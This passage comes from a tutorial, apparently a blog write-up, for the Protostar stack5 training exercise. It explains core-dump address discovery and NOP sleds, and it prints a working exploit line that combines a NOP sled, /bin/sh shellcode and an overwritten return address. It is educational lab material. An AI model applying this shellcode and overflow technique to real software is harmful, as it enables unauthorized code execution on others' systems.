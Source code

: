 <p>The nex thing is, that we wan't our stdin and stdout stay connected. When running sth. like <code class="language-json">echo 'foo' | ./stack4</code> the stdin closes just after foo is feeded to stack4 and even if we manage to get a shell spawned, it will exit because of the closed stdin. Keeping stdin open can easily be solved by using cat. So we should use <code class="language-json">{ echo 'foo'; cat -; } | ./stack4</code> instead. It first feed 'foo' to stack4, afterwards it continues to read from stdin. Try it by running <code class="language-json">{ echo 'uname -r';  echo 'whoami'; cat -; } | /bin/sh</code>. But for such things we also have nice helpers in <code class="language-json">pwntools</code>.</p>
<p>So now we need to know where our shellcode will be placed in memory. It's on the stack, we know its the second thing in the current stackframe (first thing is the <code class="language-json">saved EBP</code>) and because the stack grows from high addresses to low addresses we know it ends at <code class="language-json">EBP-4</code>. We also know it's 64bytes in length so it will start at <code class="language-json">EBP-68</code>. But what is the base address of our stackframe?</p>
<p>One thing that was mentioned already is, that linux (at least without ASLR and on 32bit days) has a fixed virutal memory layout. On each run all functions will be loaded on the same addresses and the stack will always start on the same address. This address is normaly 0xC0000000. But our program does not start at main(). There is a lot happening before. But you might think, when the programm goes through the same instructions on each run, our EBP and also our variable should be at the same address each time the program runs. This is true, but it has to be run exactly the same way! For example environment variables will be stored on the stack before everything that happens in main(). The same is true for parameters provided to the programm (beware of argv[0] - the first paramter whch is always provided to a programm - it is the path to the binary itself. Is it given relative (./stack4) or absolute?).</p>
<blockquote>
<p>When running our program in gdb, the environmentvariables will be different and the path to the compiled programm is always given absolute! Gdb introduces environment variables (at least LINES and COLUMNS) that might there when running outside of gdb. Because this, you will fail when gathering the address of a variable by debugging the programm and than simply use this address outside of gdb! The solution is, to get the address from core-dumps as we will se next.</p>
</blockquote>
<p>There is also another aproach which helps a lot when you are not able know the exact address of variables on memory: Our friend is an instruction called nop. This instruction is one byte in length and does nothing. if we <strong>prepend our shellcode with a lot of nop's, we do not need to be very accurate on the address to our shellcode</strong>. We just need to point somewhere in the nop-sled. This is also very handy when exploiting systems, that we cannot analyse beforehand.</p>
<h2>Let's start</h2>
<ul>
<li>compile the code as usual (use "-g"!)</li>
<li>enable saving core-dumps: ulimit -c unlimited</li>
<li>Start the programm an let it crash: <code class="language-json">python -c 'A'*72 | ./stack5</code></li>
<li>Start gdb with the core dump: <code class="language-json">gdb core.XXXX</code></li>
<li>Get the address of the variable buffer: <code class="language-json">print &amp;buffer</code></li>
</ul>
<p>Our buffer is 64 bytes and for me it's at <code class="language-json">0xffffd0d8</code>. We have a shellcode that is 23 bytes. We need additional 4 bytes for the address with which we will override EIP. We need to write 72 bytes (len(buffer)+saved EBP+saved EIP). So we have 45bytes left for the nop-sled. Nop has the op-code 0x90 and is only one byte long. Because we assume we do not know the exact position of our shellcode, jump somewher in the middle. So lets add 22 to <code class="language-json">0xffffd0d8</code> (This is <code class="language-json">0xffffd0ee</code>).</p>
<pre class="language-bash"><code>$ # NOP*28 + shellcode + return Address
$ python -c 'print "\x90"*45+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"+"\xee\xd0\xff\xff"' &gt; xploit.txt
$ echo "" # This sets $_ to ""
$ { cat xploit.txt; cat -; } | `pwd`/stack5
Illegal instruction</code></pre>
<p></p>
<p>As you will notice, you will get an illegal instruction.  But what happens here. Lets have a look at the memory layout at the point before and after main is exiting:</p>
<table>
<tbody>
<tr>
<td style="vertical-align: top;">

  [1]: https://exploit-exercises.com/protostar/stack0/
  [2]: https://exploit-exercises.com/protostar/stack2/
  [3]: https://en.wikipedia.org/wiki/Endianness
  [4]: https://exploit-exercises.com/protostar/stack3/
  [5]: https://exploit-exercises.com/protostar/stack4/